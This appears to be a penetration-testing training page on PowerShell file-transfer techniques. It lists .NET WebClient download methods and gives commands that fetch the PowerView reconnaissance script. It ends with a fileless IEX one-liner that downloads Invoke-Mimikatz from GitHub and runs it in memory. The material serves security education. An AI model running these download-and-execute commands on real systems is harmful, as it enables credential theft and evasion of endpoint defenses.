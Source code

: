 PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`.&#x20;

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Method</strong></td><td><strong>Description</strong></td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0">OpenRead</a></td><td>Returns the data from a resource as a <a href="https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0">Stream</a>.</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0">OpenReadAsync</a></td><td>Returns the data from a resource without blocking the calling thread.</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0">DownloadData</a></td><td>Downloads data from a resource and returns a Byte array.</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0">DownloadDataAsync</a></td><td>Downloads data from a resource and returns a Byte array without blocking the calling thread.</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0">DownloadFile</a></td><td>Downloads data from a resource to a local file.</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0">DownloadFileAsync</a></td><td>Downloads data from a resource to a local file without blocking the calling thread.</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0">DownloadString</a></td><td>Downloads a String from a resource and returns a String.</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0">DownloadStringAsync</a></td><td>Downloads a String from a resource without blocking the calling thread.</td></tr></tbody></table>

<mark style="color:green;">**PowerShell DownloadFile Method**</mark>

<mark style="color:orange;">**File Download**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```
{% endcode %}

<mark style="color:orange;">**PowerShell DownloadString - Fileless Method**</mark>

{% hint style="warning" %}
As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
{% endcode %}
